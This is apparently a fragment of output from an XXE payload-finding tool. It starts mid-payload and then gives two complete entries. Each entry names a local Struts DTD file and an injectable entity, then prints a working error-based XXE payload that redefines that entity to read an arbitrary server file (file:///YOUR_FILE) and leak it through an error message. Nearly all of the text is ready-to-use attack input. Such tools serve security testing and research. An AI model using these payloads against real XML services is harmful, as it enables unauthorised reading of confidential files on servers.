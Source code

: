 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `ClassName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % ClassName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
